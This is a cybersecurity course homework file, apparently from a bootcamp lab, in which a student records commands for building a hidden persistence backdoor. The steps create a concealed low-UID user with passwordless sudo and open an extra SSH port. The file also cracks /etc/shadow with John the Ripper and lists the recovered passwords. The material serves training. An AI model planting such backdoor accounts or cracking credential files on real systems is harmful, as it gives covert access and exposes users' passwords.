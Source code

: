 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd --no-create-home sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 900 -g 900 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 900 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `%sysd ALL=(ALL) NOPASSWD: ALL`

6. Test that `sudo` access works without your password:

    ```bash
    sudo -l 
    Matching Defaults entries for sysd on scavenger-hunt:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User sysd may run the following commands on scavenger-hunt:
    (ALL) NOPASSWD: ALL

    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 22
    Port 2222

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart sshd`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `computer         (stallman)
    freedom          (babbage)
    trustno1         (mitnik)
    dragon           (lovelace)
    lakers           (turing)
    passw0rd         (sysadmin)
    passw0rd         (sysd)
    Goodluck!        (student)
`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.


